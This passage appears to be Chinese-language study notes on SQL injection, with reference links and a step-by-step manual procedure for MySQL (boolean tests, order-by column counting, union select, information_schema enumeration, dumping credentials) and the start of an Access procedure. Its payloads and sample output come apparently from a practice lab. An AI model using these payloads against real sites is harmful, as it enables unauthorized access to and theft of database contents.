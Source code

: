 https://www.cnblogs.com/yilishazi/p/14710349.html

https://www.jianshu.com/p/ba0297da2c2e

### Oracle注入

https://www.cnblogs.com/peterpan0707007/p/8242119.html

### MongoDB注入

![](https://img.yatjay.top/md/202203251646138.png)

https://blog.csdn.net/weixin_33881753/article/details/87981552

https://www.secpulse.com/archives/3278.html

## 各数据库手工注入流程

### MySQL：

1. 找到注入点 `and 1=1 and 1=2` 测试报错

2. `order by 5 #` 到5的时候报错，获取字段总数为4

3. id=0(不是1就行，强行报错) `union select 1,2,3,4 #` 联合查询，2和3可以显示信息

4. 获取数据库信息

​		`user()` ==>root

​		`database()` ==>mozhe_Discuz_StormGroup

​		`version()` ==>5.7.22-0ubuntu0.16.04.1

5. 获取数据库表

​		`table_name` 表名

​		`information_schema.tables` 系统生成信息表

​		`table_schema=数据库名`16进制或者用单引号括起来

​		改变`limit 0,1`中前一个参数，得到两个表 StormGroup_member notice

6. 获取列名

​		结果如下 id,name,password,status

7. 脱库

### Access：

1. `and 1=2` 报错找到注入点

2. `order by` 获取总字段

3. 猜解表名 

   `and exists(select * from admin)` 页面返回正常，说明存在admin表
